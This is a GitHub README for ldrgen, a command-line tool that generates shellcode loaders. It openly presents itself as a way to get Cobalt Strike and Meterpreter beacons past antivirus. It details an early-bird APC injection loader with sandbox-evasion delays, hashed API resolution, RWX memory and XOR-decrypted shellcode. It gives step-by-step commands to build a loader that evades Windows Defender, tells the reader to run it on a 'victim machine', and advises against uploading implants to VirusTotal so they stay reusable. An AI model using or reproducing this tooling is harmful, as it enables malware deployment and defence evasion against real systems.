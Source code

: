# ldrgen

ldrgen is a golang cli tool for rapid generation of shellcode loaders using pre-defined templates.

> ⚠️ this tool is meant to help with running beacon from disk, this does **not** help with evasion for memory scans or post-exploitation- OPSEC considerations are up to the discretion of the operator.

## Getting Started
There are available binaries on the [releases](https://github.com/gatariee/ldrgen/releases) page, or you can build from source for the latest version.

### Releases
Standalone binaries are available, however you will need a `templates` directory to be ingested by the generator. You can find the latest templates from source [here](./templates/) or it should be included as a zip file in the release.

Templates are expected to be in the same directory as where the binary is executed, but you can specify with the `--template` flag.

### Building from Source
```bash
cd ldrgen/src
make build

cd bin
ldrgen --help
```

## Usage
The concept of this tool is quite simple, you provide raw shellcode, as well as a loader token, and the tool will generate the loader source code file for you.

![ldrgen_1](./assets/ldrgen_1.png)

![ldrgen_2](./assets/ldrgen_2.png)

### Calculator Shellcode 
This example will use the `CreateThread` loader token and [boku7's null-free calculator shellcode](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode).

```bash
./ldrgen generate --template [path_to_template_folder] --bin [path_to_shellcode] --output [path_to_output_folder] --loader CreateThread
```
![calc_example](./assets/calc_example_1.png)

The source code of the loader will be generated in the specified output folder along with a generic `makefile` to build the loader, or you can build it yourself.

```bash
make [x64 | x86]
```

![calc_example_2](./assets/calc_example_2.png)

Transfer the implant to your Windows machine, and execute the loader.

![calc_example_3](./assets/calc_example_3.png)

### Usage for AV Evasion
The main purpose of this tool is to help with AV evasion especially when compiling loaders for very highly signatured beacons (e.g cobalt strike, meterpreter), or running post-exploitation tools from disk without being nuked by AV.

The following examples will use the loader token `EarlyBirdAPC_Buffed` which uses the following techniques (in order):

> ✅ All WinAPI function calls are dynamically resolved at runtime from a calculated hash unless otherwise stated, see [hash.py](./templates/Scripts/hash.py) for more information on the hashing algorithm.

* Attempts sandbox evasion by counting to `10000000000`, takes roughly ~30-45 seconds to complete.
* Runtime dynamic resolution of WinAPIs from `kernel32.dll` 
* Spawns user controlled process in suspended state - denoted by `${ PNAME }`
    - Uses `CreateProcessW` resolved from `kernel32.dll` 
    - See: [EarlyBirdAPC_Buffed.c - Line 213](./templates/Source/EarlyBirdAPC_Buffed.c#L213)
* Allocates memory in the suspended process with the size of the shellcode
    - Uses `VirtualAllocEx` resolved from `kernel32.dll` to allocate PAGE_EXECUTE_READWRITE (RWX) memory of the size of the shellcode - denoted by `${ SHELLCODE_SIZE }`
    - See: [Shellcode.c - Line 3](./templates/Source/Shellcode.c#L3)
* Begins a routine to XOR decrypt the shellcode in memory with a user-defined key - denoted by `${ KEY }`
    - See [EarlyBirdAPC_Buffed.c - Line 236](./templates/Source/EarlyBirdAPC_Buffed.c#236)
    - Uses an XOR function from [Xor.c](./templates/Source/Xor.c) to decrypt the shellcode in memory

* Writes the shellcode buffer to the allocated memory
    - Uses `WriteProcessMemory` resolved from `kernel32.dll` to write the shellcode to the allocated memory - denoted by `${ SHELLCODE }`
    - See: [Shellcode.c - Line 2](./templates/Source/Shellcode.c#L2)

* Queues an APC to the suspended thread, resumes the thread and waits for process to exit via `WaitForSingleObject`
* Cleans up the allocated memory, and closes handles, before dying gracefully.

#### Cobalt Strike Beacon
The following is usage of ldrgen to generate a loader for Cobalt Strike's beacon using the `EarlyBirdAPC_Buffed` token.

> ⚠️ In this example, Windows Defender (9/1/2024) is **enabled** and **up-to-date**.

1. Generate the beacon shellcode 
  - Payloads -> Stageless Payload Generator -> Output -> Raw
  - Default output name is: `payload_x64.bin`

    ![cobalt_example_1](./assets/cobalt_example_1.png)

2. Generate the loader
```bash
ldrgen-linux-x64 generate --template ../../templates --bin payload_x64.bin --output implants --loader EarlyBirdAPC_Buffed --enc xor --args "key=2adc118cdd0ae, pname=C:\\\Windows\\\system32\\\cmd.exe"     

Loader          ->    EarlyBirdAPC_Buffed
Encoding Type   ->    xor
Key:            ->    2adc118cdd0ae
Process Name    ->    C:\\Windows\\system32\\cmd.exe
```
![cobalt_example_2](./assets/cobalt_example_2.png)

3. Compile the loader
```bash
cd implants && make x64
```

![cobalt_example_3](./assets/cobalt_example_3.png)

4. Transfer implant to victim machine, and execute the loader.

![cobalt_example_4](./assets/cobalt_example_4.png)

5. Check that beacon callback was successful.

![cobalt_example_5](./assets/cobalt_example_5.png)

> ⚠️ OPSEC Note: The beacon used and generated has **no in memory evasion** and will 100% be killed if you trigger a memory scan or perform any OPSEC unsafe actions.

![cobalt_example_6](./assets/cobalt_example_6.png)

![cobalt_example_7](./assets/cobalt_example_7.png)


### VT
don't upload your implants to VT if you intend to reuse your implants

![vt_1](./assets/vt_1.png)
https://www.virustotal.com/gui/file/6ff98356931564a9a49f390a9f1bffe032adc118cdd0ae5347c11d63004e362e